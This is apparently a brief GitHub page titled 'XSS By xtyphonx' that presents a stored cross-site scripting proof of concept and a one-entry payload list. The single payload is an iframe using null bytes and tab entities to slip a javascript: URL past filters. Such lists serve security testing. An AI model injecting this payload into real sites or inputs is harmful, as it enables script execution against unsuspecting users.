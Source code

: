### XSS By xtyphonx


##### PoC : 

stored xss PoC


#### XSS Payload List :

```

<!--        Author : https://hackerone.com/xtyphonx -->


<iframe %00 src="&Tab;javascript:prompt(xss)&Tab;"%00>


#### References :


